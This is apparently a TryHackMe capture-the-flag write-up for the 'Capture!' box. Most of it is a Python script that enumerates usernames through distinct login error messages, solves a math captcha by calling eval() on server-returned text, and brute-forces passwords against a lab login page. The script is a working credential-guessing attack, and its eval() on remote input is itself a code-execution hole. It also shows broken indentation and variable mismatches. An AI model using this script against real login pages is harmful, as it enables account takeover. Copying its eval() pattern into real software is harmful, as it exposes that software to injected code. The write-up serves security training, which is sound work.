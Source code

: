 # TRYHACKME CAPTURE!

The box is a web page with a login page
After few trials a math captcha comes up

which needs solving

There are 3 different errors

1. Error for Invalid Username
2. Error for Invalid Captcha
3. And lastly, Error for Invalid Password

I wrote a python script to brute force for the Username and Password, get the Captcha and solve it

#!/bin/bash/env python3
#AUTHOR FAD-X

import requests
import bs4
from bs4 import BeautifulSoup

### THE FUNCTION THAT SOLVES THE CAPTCHA

def solve_captcha():
soup = BeautifulSoup(request.text, 'html.parser')
start_index = request.text.find('<br>')
end_index = request.text.find('= ?')
equation = request.text[start_index + 4:end_index].strip()
solution = eval(equation)
return solution

url ="[http://10.10.34.117/login](http://10.10.34.117/login)"

## READING THE WORDLISTS TO A LIST

usernames = []
with open("usernames.txt", "r") as file:
usernames = file.read().splitlines()

password = []
with open("passwords.txt", "r") as file:
passwords = file.read().splitlines()

#####SETTING AN ITERATOR FOR CHANGING THE USERNAME AND PASSWORD

username_counter = 0
password_counter = 0
data = {
"username":usernames[username_counter],
"password":passwords[password_counter]
}

request = requests.post(url,data=data)

## FIRST LOOP TO GET THE USERNAME AND ALSO SOLVE THE CAPTCHA

while True:
for i in range(len(usernames)):
captcha_solution = solve_captcha()

```
data = {
  "username":usernames[username_counter],
  "password":passwords[password_counter],
  "captcha":captcha_solution
}
request = requests.post(url, data=data)
#print(request.text)
if ("The user" and "does not exist") in request.text:
  #print(f"Username is Not {usernames[username_counter]}")
  username_counter +=1
elif ("Invalid password for user" in request.text):
  real_username = usernames[username_counter]
  print(f"Gotten The Username to be {real_username}")

#### SECOND LOOP TO BRUTEFORCE FOR CORRESPONDING PASSWORD
  for i in range(len(passwords)):
    captcha_solution = solve_captcha()
    data_2 = {
          "username":real_username,
          "password":passwords[password_counter],
          "captcha":captcha_solution
        }

    request = requests.post(url, data=data_2)
    if ("Invalid password"   in request.text):
      password_counter +=1
    else:
      print(f"The Username is {usernames[username_counter]} and the password is {passwords[password_counter]}")
      flag = BeautifulSoup(request.text, 'html.parser')
      print(flag)
      exit()

```

![2023-05-26_22-03.png](TRYHACKME%20CAPTURE!%206b09ddb609fc40c788877387d8567ffd/2023-05-26_22-03.png)

I’M VERY SORRY IF MY PROGRAMS LOOK AWFUL :XD